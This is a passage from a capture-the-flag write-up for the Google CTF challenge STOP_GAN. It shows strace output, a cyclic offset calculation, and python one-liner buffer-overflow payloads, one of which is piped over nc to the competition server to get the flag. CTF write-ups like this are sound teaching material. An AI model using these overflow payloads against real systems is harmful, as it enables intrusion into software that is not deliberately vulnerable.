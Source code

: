 ```console
3161 exit_group(0)
```

We can see the `SIGSEGV` here:
```
--- SIGSEGV {si_signo=SIGSEGV, si_code=1, si_addr=0x41444344} ---
```

We enter this as the search parameter for `cyclic` and get the overflow offset:
```console
root@kali:/media/sf_CTFs/google/STOP_GAN# cyclic -a "ABCDE" -l 0x41444344
264
```

Now we would expect this to work, but it doesn't:
```console
root@kali:/media/sf_CTFs/google/STOP_GAN# python -c "print ('a'*264 + '\x40\x08\x40\x00');" | ./bof
Cauliflower systems never crash >>
flag for uncontrolled overflow
segfault detected! ***CRASH***
```

Moving forward with the addresses eventually works:
```console
root@kali:/media/sf_CTFs/google/STOP_GAN# python -c "print ('a'*264 + '\x4c\x08\x40\x00');" | ./bof
Cauliflower systems never crash >>
flag for controlled overflow
```

We try it on the server and get:
```console
root@kali:/media/sf_CTFs/google/STOP_GAN# { echo "run"; python -c "print ('a'*264 + '\x4c\x08\x40\x00');";} | nc buffer-overflow.ctfcompetition.com 1337
Your goal: try to crash the Cauliflower system by providing input to the program which is launched by using 'run' command.
 Bonus flag for controlling the crash.

Console commands:
run
quit
>>Inputs: run
CTF{controlled_crash_causes_conditional_correspondence}
Cauliflower systems never crash >>

Console commands:
run
quit
>>
```


